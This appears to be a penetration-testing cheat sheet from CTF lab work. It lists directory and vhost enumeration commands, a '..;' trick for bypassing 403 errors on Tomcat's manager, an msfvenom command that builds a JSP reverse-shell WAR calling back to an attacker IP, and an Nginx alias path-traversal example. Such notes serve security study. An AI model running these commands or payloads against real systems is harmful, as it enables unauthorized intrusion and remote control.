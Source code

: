 ### Web Enumeration

dirsearch  - 
```bash
python3 dirsearch.py --full-url -r -u http://10.10.10.60/ -e php,aspx,jsp,html,js,php,txt -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -q
```

dns - 
```bash
gobuster vhost forge.htb -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomain-top1million-110000.txt -r
```
Dictionary
```bash
/usr/share/dirbuster/wordlists/directory-list-1.0.txt
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

Gobuster
```bash
gobuster dir -u https://10.11.1.237/ -w Tools/web/dirsearch/db/dicc.txt -k 
```

Fuzzing the url
```bash
ffuf -w ./LFI-Jhaddix.txt -u 'http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ' -fs 15349
```
***

### Tomcat Exploitation
1. `..;` to bypass the 403 http code. 
**Example**:- https://10.10.10.250//manager/status/html -> https://10.10.10.250//manager/status/..;/html
2. Create a reverse shell file and upload it as new application. 
```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f war -o shell.war```

### Nginx Exploitation

**Alias LFI Misconfiguration**
Inside the Nginx configuration look the "location" statements, if someone looks like:

```
location /imgs {
	alias /path/images/
}
```

There is a LFI vulnerability because - `/imgs../flag.txt`